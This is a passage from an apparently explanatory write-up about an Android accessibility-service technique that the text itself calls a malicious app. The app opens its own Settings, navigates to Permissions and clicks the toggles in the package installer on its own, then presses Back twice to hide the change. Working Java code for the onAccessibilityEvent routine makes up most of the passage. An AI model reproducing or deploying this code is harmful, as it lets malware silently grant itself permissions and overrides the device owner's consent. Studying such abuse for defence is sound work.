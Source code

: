 As you can see, we first check if permissions have been granted, and if it's not the case, the Settings for THIS application are open.

### The service `PermissionsService`

Once the settings panel open, we look for the item with a name like `perm`. Here, we do not need a stack, since only one click is necessary
to reach the panel with the toggle buttons allowing the app to obtain permissions. Here, I used a Boolean object (not a primitive, because if wanted to be able
to set it to `null`)

However, in this case, we have to deal with 3 packages.
* At the beginning, events will be fired by the malicious app, it's then the time to set up the variable `clickPerm`.
* After that, we will interact with Settings to force a click on "Permissions" to open the panel.
* And finally, the last panel with toggle buttons will be handled by the app com.google.android.packageinstaller.

The routine `onAccessibilityEvent` is then as follows ( `sleep` does only a call to `Thread.sleep(250)`, and `clickPerms` is the global Boolean):

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	switch (accessibilityEvent.getPackageName().toString()){
>		case BuildConfig.APPLICATION_ID:
>			if (clickPerms == null){
>				clickPerms = Boolean.FALSE;
>			}
>			break;
>		case Constants.PACKAGE_SETTINGS:
>			if (Util.checkPermissions(getApplicationContext()))return;
>			if (clickPerms != null){
>				AccessibilityNodeInfo info = accessibilityEvent.getSource();
>				if (info != null && !this.clickPerms) {
>					if (lookForPermissionsPanel(info)){
>						this.clickPerms = true;
>					}
>				}
>			}
>			break;
>		case Constants.PACKAGE_INSTALLER:
>			if (Util.checkPermissions(getApplicationContext()))return;
>			if (this.clickPerms != null && this.clickPerms){
>				AccessibilityNodeInfo info = accessibilityEvent.getSource();
>				if (info != null) {
>					enablePermissions(info);
>					if (Util.checkPermissions(getApplicationContext())){
>						for(int i = 0; i < 2; i++){
>							performGlobalAction(GLOBAL_ACTION_BACK);
>							sleep();
>						}
>						this.clickPerms = null;
>					}
>				}
>			}
>			break;
>	}
>}
> ```
